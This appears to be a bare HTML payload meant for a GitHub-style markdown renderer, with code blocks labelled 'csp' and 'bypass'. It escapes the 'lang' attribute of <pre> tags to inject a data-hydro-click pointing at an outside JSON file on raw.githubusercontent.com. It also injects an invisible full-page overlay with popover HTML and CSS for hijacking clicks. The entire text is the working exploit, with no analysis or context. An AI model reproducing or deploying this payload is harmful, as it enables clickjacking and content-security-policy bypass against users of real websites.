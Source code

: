 <a>
  <pre lang='/" data-hydro-click="https://raw.githubusercontent.com/smartaptlimited/new/main/aaa.json"'>
    <code lang="wavedrom">csp</code>
  </pre>
  <pre lang='/" id="stage1" style="position:absolute;max-width:10000px;left:-1000px;top:-1000px;width:10000px;height:10000px;z-index:10000;" data-triggers="click" data-toggle="popover" data-html="true" data-title="aaa&lt;style&gt;#stage1{pointer-events:none}svg.chevron-right{position:absolute;max-width:10000px;left:-1000px;top:-1000px !important;width:10000px;height:10000px;z-index:10001;}&lt;/style&gt;bbb" data-content="ggg">
    <code lang="wavedrom">bypass</code>
  </pre>
</a>
